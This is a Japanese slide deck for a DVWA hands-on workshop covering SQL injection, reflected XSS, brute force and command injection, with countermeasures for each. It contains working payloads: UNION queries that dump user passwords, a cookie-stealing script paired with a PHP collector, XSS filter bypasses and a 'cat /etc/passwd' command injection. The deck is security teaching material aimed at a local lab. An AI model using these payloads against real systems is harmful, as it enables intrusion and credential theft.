


<!-- _class: lead -->
# DVWAで学ぶ<br>Webアプリ脆弱性ハンズオン

## 〜 手を動かして理解する SQLi & XSS 〜

- 日時: 2026-09-06 (日)

---

## 本日のアジェンダ

1. **インストール & セットアップ**
2. **SQLインジェクション**
3. **XSS (Reflected)**

早く進めば

4. **ブルートフォース（動画）**
5. **コマンドインジェクション（動画）**

> 本日はローカル環境のDVWAのみを対象にします。

---

<!-- _class: warn -->
## はじめに（重要）

- 本ハンズオンは **セキュリティ学習を目的** としたものです
- 学んだ技術を **自分の管理外のシステムに使うことは犯罪** です
  - 不正アクセス禁止法 等に抵触します
- 攻撃は必ず **自分のローカル環境（DVWA）** に対してのみ行ってください

---

## DVWAとは？

- **D**amn **V**ulnerable **W**eb **A**pplication
- 意図的に脆弱性を仕込んだ、学習用のWebアプリ（PHP + MySQL）
- セキュリティレベルを切り替えられる
  - `Low` / `Medium` / `High` / `Impossible`
- 主な学習項目
  - SQL Injection / XSS / CSRF / File Upload / Command Injection ...

---

<!-- _class: chapter -->
## SECTION 1
# インストール & セットアップ

---

## 環境構築の全体像

- 用意するもの（想定）
  - Docker / Docker Compose
  - ブラウザ（Chrome など）
- 手順の流れ
  1. ソースコードをローカルにクローン
  2. Docker Composeでコンテナ立ち上げ
  3. ブラウザで DVWA にアクセス
  4. データベースを初期化

---

<!-- _class: exercise -->
## ソースコードをローカルにクローン

ブラウザで「DVWA」と検索し、 `dijininja/DVWA` というリポジトリをローカルの適当なディレクトリにクローンする。

```
cd (適当なディレクトリ)
git clone https://github.com/digininja/DVWA.git
cd DVWA
```

---

<!-- _class: exercise -->
## Docker Composeでコンテナ立ち上げ

以下のコマンドを打って、コンテナを立ち上げる。

```
docker compose up -d
```

---

<!-- _class: exercise -->
## ブラウザでアクセス

ブラウザのURL欄に `localhost:4280` と入力しアクセスする。

ログインは username: `admin` 、password: `password`


---

<!-- _class: exercise -->
## データベースの初期化（初回のみ）

- DVWA画面下部の **「Create / Reset Database」** をクリック
- 完了後、ログイン画面へ遷移するので再度ログイン

---

<!-- _class: exercise -->
## セキュリティレベルの設定

- メニュー **DVWA Security** から変更


---

<!-- _class: exercise -->
## セキュリティレベルの特徴

- まず `Low` からスタート
- クリアできたら `Medium` / `High` に上げていく

| レベル | 特徴 |
|--------|------|
| Low | ほぼ無防備。仕組みの理解向け |
| Medium | 中途半端な対策。回避を学ぶ |
| High | 実践的な対策に近い |
| Impossible | 安全な実装のお手本 |

---

<!-- _class: chapter -->
## SECTION 2
# SQLインジェクション

---

## SQLインジェクションとは？

- 入力値がSQL文に**そのまま埋め込まれる**ことで、
  攻撃者が任意のSQLを実行できてしまう脆弱性
- 起こること
  - 認証回避 / 情報漏えい / データ改ざん・削除
- キーワード: **SQLを壊しに行く**

---

## 仕組み（イメージ）

```php
// 脆弱なコード例（イメージ）
$query = "SELECT * FROM users WHERE id = ${id}";
```

- `id` に `1 OR 1=1` を入れると…

```php
$query = "SELECT * FROM users WHERE id = 1 OR 1=1";
```

- 全行が `WHERE` 句の条件を満たし、全行取得してしまう。

---



---

## 演習に使うページ

DVWA **SQL Injection** ページ（Level: Low）


---

<!-- _class: exercise -->
## 演習1

  1. SQLインジェクションの成立
  2. クエリ調査
  3. DB調査
  4. 秘匿情報暴露

---

<!-- _class: exercise -->
### 演習1-1: SQLインジェクションの成立

`1 or 1=1 #` を入力すると、ID:1のユーザー情報しか得られない。


---

<!-- _class: exercise -->
この場合、よくある実装のうちのもう一つのパターンになっている可能性がある。

```php
// 脆弱なコード例（文字列パターン）
$query = "SELECT * FROM users WHERE id = '${id}'";
```

ここで `1 or 1=1 #` とすると以下のようになり意図した攻撃にならない。

```php
$query = "SELECT * FROM users WHERE id = '1 or 1=1 #'";
```

`1' or 1=1 #` とすると攻撃が成立する。（文字列からの脱出）

```php
$query = "SELECT * FROM users WHERE id = '1' or 1=1 #'";
```

---

<!-- _class: exercise -->
### 演習1-2: クエリ調査
```php
$query = "SELECT [何個のカラム?] FROM users WHERE id = '1' #'";
```

この場合、 `ORDER BY n` を使う。実際に取得しているカラム数以上の数字を `n` に入れるとエラーが発生する。

```php
$query = "SELECT [何個のカラム?] FROM users WHERE id = '1' order by n #'";
```

実践

- `1' order by 2 #` でエラーが発生するか見てみよう。
- `1' order by 3 #` でエラーが発生するか見てみよう。

---

<!-- _class: exercise -->
### 演習1-3: DB調査

`UNION` 句を使うと、複数のテーブルを単純に結合することができる。

構文

```
[SQL] UNION [SQL]
```



---

<!-- _class: exercise -->
実践

- `1' union select user(), database() #` を入力してみよう。
- `1' union select table_schema, table_name from information_schema.tables where table_schema = database() #` を入力してみよう。
- `1' union select table_name, column_name from information_schema.columns where table_schema = database() #` を入力してみよう。

---

<!-- _class: exercise -->
### 演習1-4: 秘匿情報の暴露

実践

- `' union select user, password from users #` を入力してみよう。

---

### 演習1-5: 他のセキュリティレベル

1. Medium : POST送信をする
2. High : 別ウィンドウが出てくるだけ、Lowと同じペイロードを送信

---

## SQLインジェクションの対策

- **プレースホルダ（プリペアドステートメント）** を使う
- 入力値のバリデーション / エスケープ
- 最小権限のDBユーザー
- エラーメッセージを詳細に出さない

```php
// 対策例（プリペアドステートメント）
$stmt = $pdo->prepare('SELECT * FROM users WHERE id = ?');
$stmt->execute([$_GET['id']]);
```

---

<!-- _class: chapter -->
## SECTION 3
# XSS (Reflected)

---

## XSS（クロスサイトスクリプティング）とは？

- Webページに**悪意あるスクリプトを埋め込まれてしまう**脆弱性
- 種類
  - **Reflected（反射型）** ← 本日はこれ
  - Stored（蓄積型）
  - DOM Based
- 起こること
  - Cookie/セッション窃取 / 画面改ざん / フィッシング

---

## Reflected XSS の仕組み

- URLパラメータなどの入力が、**そのままHTMLに出力**される
- 攻撃者が用意したURLを被害者が開くと、スクリプトが実行される

```php
// 脆弱なコード例（イメージ）
echo "こんにちは、" . $_GET['name'] . " さん";
```

- `name` に `<script>...</script>` を入れると実行される

---

<!-- _class: exercise -->
## 演習2

  1. XSSの成立(Low)
  2. Cookie窃取
  3. XSSの成立(Medium)
  4. XSSの成立(High)

---

<!-- _class: exercise -->
## 演習2-1: XSSを成立させる(Low)

- 対象: DVWA **XSS (Reflected)** ページ（Level: Low）


---

<!-- _class: exercise -->
適当な文字列を入れて正常な出力を確認


---

<!-- _class: exercise -->
実践
- `<script>alert(1)</script>` と入れてXSSを成立させてみよう。
- `<script>alert(document.cookie)</script>` と入れてみよう。

---

<!-- _class: exercise -->
## 演習2-2: Cookie窃取

**準備1**: PHPスクリプトを作成

まず適当にディレクトリを作成する。

```
mkdir php
cd php
```

そして `index.php` を作成し、以下を記述する。

```php
<?php
if (!empty($_GET["c"])) {
  error_log($_GET["c"]);
  file_put_contents('cookies.txt', $_GET["c"] . "\n" , FILE_APPEND);
} else {
  echo "server ok";
}
```

---

<!-- _class: exercise -->
**準備2**: PHPサーバーを起動する

- PHPインストール済みの場合 （ `php -v` で何か表示がある場合）

```
php -S localhost:8000
```

- 未インストールの場合

```
docker run -v ./:/var/www/html -p 8000:80 php:apache
```

ブラウザでlocalhost:8000にアクセスし、「server ok」が表示されたら成功。

---

<!-- _class: exercise -->
実践

- 以下をXSSページに入力して、Cookieが窃取できていることを確認しよう。

```
<script>new Image().src="http://localhost:8000/?c="+document.cookie;</script>
```

---

<!-- _class: exercise -->
## 演習2-3: XSSを成立させる(Medium)

- セキュリティレベルをMediumにする
- `<script>` タグが削除されるのでトラップを仕掛ける。

```
<scr<script>ipt>（ここにJavaScriptを書く）</script>
```

---

<!-- _class: exercise -->
## 演習2-4: XSSを成立させる(High)

- セキュリティレベルをHighにする
- `<script>` タグのトラップが効かないので、 `` タグを使う

```

```

---

## XSS の対策

- 出力時に**エスケープ**する（HTMLエンコード）
  - `<` → `&lt;` / `>` → `&gt;` など
  - PHPなら `htmlspecialchars` 関数でエスケープできる
- 入力バリデーション
- **Content-Security-Policy (CSP)** の設定
- `HttpOnly` 属性でCookieをJSから守る

```php
// 対策例（出力エスケープ）
echo "こんにちは、" . htmlspecialchars($_GET['name'], ENT_QUOTES, 'UTF-8') . " さん";
```

---

<!-- _class: chapter -->
## SECTION 4
# Brute Force

---

## ブルートフォースとは？

- ログイン画面などに対して、パスワードを**総当たり**で試し、
  認証を突破しようとする攻撃
- 種類
  - 総当たり攻撃 / 辞書攻撃 / パスワードスプレー
- 起こること
  - 認証突破 / アカウント乗っ取り
- キーワード: **試行回数の制限がないと破られる**

---

## 仕組み（イメージ）

- ログインに **試行回数の制限やアカウントロックがない** と成立する
- ツールでID・パスワードの組み合わせを大量に自動送信する

```
GET /login?username=admin&password=123456
GET /login?username=admin&password=password
GET /login?username=admin&password=admin123
...（当たるまで繰り返す）...
```

- 弱いパスワードほど短時間で突破されてしまう。

---

<!-- _class: exercise -->
## 演習3: パスワードを総当たりする

こちらで攻略動画を公開しています。

https://www.youtube.com/watch?v=1Y7UZLXigr0

---

## ブルートフォースの対策

- **試行回数の制限（レートリミット）／アカウントロック**
- **多要素認証（MFA）** の導入
- 強力なパスワードポリシー
- CAPTCHA / ログイン失敗の監視・通知

---

<!-- _class: chapter -->
## SECTION 5
# Command Injection

---

## コマンドインジェクションとは？

- 入力値が **OSコマンドにそのまま渡される** ことで、
  攻撃者が任意のOSコマンドを実行できてしまう脆弱性
- 起こること
  - サーバー乗っ取り / ファイル窃取・改ざん / 内部侵入の起点
- キーワード: **入力を信用しない**

---

## 仕組み（イメージ）

```php
// 脆弱なコード例（イメージ）
$target = $_REQUEST['ip'];
system("ping -c 4 " . $target);
```

- `ip` に `127.0.0.1; cat /etc/passwd` を入れると…

```
ping -c 4 127.0.0.1; cat /etc/passwd
```

- `;` で別のコマンドが連結され、任意のコマンドが実行されてしまう。

---

<!-- _class: exercise -->
## 演習4: 任意コマンドを実行する

こちらで攻略動画を公開しています。

https://www.youtube.com/watch?v=O023HySysTk

---

## コマンドインジェクションの対策

- OSコマンドを**シェル経由で組み立てない**（引数を配列で渡す等）
- 入力値のバリデーション（**許可リスト**方式）
- シェルのメタ文字（`; | & $` など）をエスケープ
- 最小権限で実行する

```php
// 対策例（入力を検証し、安全にエスケープ）
$ip = $_REQUEST['ip'];
if (filter_var($ip, FILTER_VALIDATE_IP)) {
  system('ping -c 4 ' . escapeshellarg($ip));
}
```

---

## まとめ

- **DVWA** で代表的な脆弱性を実際に体験した
  - SQLインジェクション / Reflected XSS
  - Brute Force / Command Injection
- 共通する教訓
  - システムは必ず **"開発者が想定していない使われ方"** をされる
  - だからこそ **多層防御** — 入力・出力・認証、どこか1つ破られても守れる設計を
- 攻撃を知ることは、**守る力**になる

---

<!-- _class: lead -->
# お疲れ様でした！

- 質問・フィードバックは随時どうぞ
